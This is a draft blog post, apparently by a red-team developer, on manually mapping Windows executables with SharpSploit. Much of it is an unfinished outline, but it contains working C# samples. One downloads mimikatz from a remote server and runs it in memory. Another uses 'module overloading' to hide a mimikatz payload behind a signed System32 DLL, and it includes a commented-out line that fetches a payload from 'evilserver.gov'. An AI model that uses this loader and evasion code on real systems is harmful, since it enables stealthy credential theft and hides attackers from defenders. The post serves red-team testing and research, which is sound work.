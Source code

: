 ```yaml
---
layout: post
title: Emulating Covert Operations - Manually Mapping Portable Executables
---
```


*TLDR: A guide to the new Manual Mapping API in SharpSploit, including a ranty discussion on the arcane art of manually mapping Windows executables (Portable Executables).*

![_config.yml]({{ site.baseurl }}/images/Manual_Map/45953a.jpg "Loaders, man...")

# Manual Mapping

Why manually map? 

## History

Started with 29A.

Many threat actors 

Also in Donut https://github.com/TheWover/donut/blob/master/loader/inmem_pe.c

Libpeconv (hasherezade): https://github.com/hasherezade/libpeconv

## Understanding the Windows Loader

Ghidra time

`Ldr*`


## Building a Minimal Loader

1) Parsing the PE Headers
2) Relocation
3) Virtualization (Alignment, Protections, Resources)
4) Import Address Resolution
5) API Set Resolution
6) Module Initialization
7) TLS Callbacks
8) Export Resolution & Invocation
9) Invoking Main
10) Passing Command Line Parameters

### Parsing the PE Headers

Open up a test DLL with CFFExplorer and walk through the PE format.



Check that the architecture is compatible with the current process. `PEINFO.Is32Bit`

Copy headers `PEINFO->OptHeader->SizeOfHeaders`

What other useful information can we find here?

### Relocation

All your base are belong to us

Modules sometimes have a preferred memory base. If the module does, then relocate it to there. 

### Virtualization

`.text`: Code
`.data`


#### Alignment

#### Protections

#### Resources

### 

# Edge Cases

Security Cookie

Nonstandard entry points (fuck you Windows)

Some runtimes use other than GetCommandLine.

## Using the Manual Mapping API in SharpSploit

```csharp

using System;
using System.Runtime.InteropServices;

namespace MapTest
{
    class Program
    {
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int MessageBox(IntPtr hWnd, String text, String caption, int options);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int TestFunc();

        static void Main(string[] args)
        {
            //Test DLL project can be found at: https://github.com/FuzzySecurity/DLL-Template

            Console.WriteLine("[+] Mapping Test DLL from disk into memory!");

            Console.WriteLine("\t[+] Calling Test DLL from memory by DLLMain...\n");
            // (1) Call test DLL by DLLMain
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModule(ManMapTest.PEINFO, ManMapTest.ModuleBase);

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (2) Call test DLL by export (Also calls DllMain as part of init)
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest2 = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            object[] FunctionArgs = { };
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest2.PEINFO, ManMapTest2.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping Test DLL from byte array and calling export!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (3) Map test DLL using byte array. Call by export like above.
            byte[] bytes = System.IO.File.ReadAllBytes(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest3 = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(bytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest3.PEINFO, ManMapTest3.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping and calling Mimikatz from memory (via download from URL)!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Mimikatz EXE from memory!\n");

            // (4) Mimikatz x64
            byte[] katzBytes = new System.Net.WebClient().DownloadData(@"http://192.168.123.227:8000/mimikatz.exe");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapKatz = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(katzBytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(ManMapKatz.PEINFO, ManMapKatz.ModuleBase);

            Console.ReadLine();
        }
    }
}     

```
[Manual_Map1.png]

[Manual_Map2.png]

[Manual_Map4.png]

## Module Overloading

Basically the same as Phantom DLL Hollowing and Module Stomping. We (hasherezade ) 


```csharp

using System;
using System.IO;

namespace MapTest
{
    class Program
    {

        static void Main(string[] args)
        {

            string payload = @"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\mimikatz.exe";

            // Map a module to a file
            string decoyPath = @"C:\Windows\System32\user32.dll";

            byte[] payloadBytes = File.ReadAllBytes(payload);

            //Optionally, download the payload from a server into a byte array
            //byte[] payloadBytes = new System.Net.WebClient().DownloadData("http://evilserver.gov/kittenz.cute");

            //Overload, using specific decoy file
            SharpSploit.Execution.PE.PE_MANUAL_MAP metadata = SharpSploit.Execution.DynamicInvoke.Generic.OverloadModule(decoyPath, payloadBytes);

            //Overload, using randomly chosen decoy file
            //SharpSploit.Execution.PE.PE_MANUAL_MAP metadata = SharpSploit.Execution.DynamicInvoke.Generic.OverloadModule(payloadBytes);

            Console.WriteLine("[+] Module Address: " + metadata.ModuleBase);
            Console.WriteLine("[+] Module Name: " + metadata.ModuleName); //nothing when a module is loaded from memory
            Console.WriteLine("[+] Module Backing File: " + metadata.MemoryBackingFileName);

            Console.WriteLine("Hold fire!");
            Console.ReadLine();
            Console.WriteLine("Firing!");

            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(metadata.PEINFO, metadata.ModuleBase);

            //==========================================================[Sleep]
            while (true)
            {
                System.Threading.Thread.Sleep(10000);
            }
        }
    }
}

```

The fact that you have the same module module twice is suspicious. When you choose to overload a random module, it picks one that is not already loaded, is validly signed, and is in System32/SysWOW64.
[ModuleOverloading.png]

# Detection

Module loads

Memory scanning
